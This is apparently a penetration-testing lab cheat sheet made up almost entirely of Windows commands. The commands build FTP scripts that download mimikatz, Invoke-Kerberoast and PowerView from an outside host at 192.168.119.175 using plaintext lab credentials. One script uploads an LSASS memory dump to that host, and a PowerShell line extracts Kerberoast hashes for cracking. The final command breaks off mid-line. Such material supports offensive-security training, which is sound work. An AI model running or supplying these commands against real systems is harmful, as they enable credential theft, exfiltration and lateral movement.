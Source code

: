 echo open 192.168.119.175 21> ftp.txt
echo USER offsec>> ftp.txt
echo lab>> ftp.txt
echo bin >> ftp.txt
echo GET mimikatz.exe >> ftp.txt
echo GET mimilib.dll >> ftp.txt
echo GET mimidrv.sys >> ftp.txt
echo bye >> ftp.txt

open 192.168.119.175 21
USER offsec
lab
bin 
GET mimikatz.exe 
GET mimilib.dll 
GET mimidrv.sys 
bye 


echo open 192.168.119.175 21> ftp.txt
echo USER offsec>> ftp.txt
echo lab>> ftp.txt
echo bin >> ftp.txt
echo put lsass.dmp >> ftp.txt
echo bye >> ftp.txt


echo open 192.168.119.175 21> ftp.txt
echo USER offsec>> ftp.txt
echo lab>> ftp.txt
echo bin >> ftp.txt
echo GET Invoke-Kerberoast.ps1 >> ftp.txt
echo bye >> ftp.txt


echo open 192.168.119.175 21> ftp.txt
echo USER offsec>> ftp.txt
echo lab>> ftp.txt
echo bin >> ftp.txt
echo GET PowerView.ps1 >> ftp.txt
echo bye >> ftp.txt

.\Invoke-Kerberoast.ps1 -OutputFormat HashCat|Select-Object -ExpandProperty hash | out-file -Encoding ASCII kerb-hash0.txt


Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 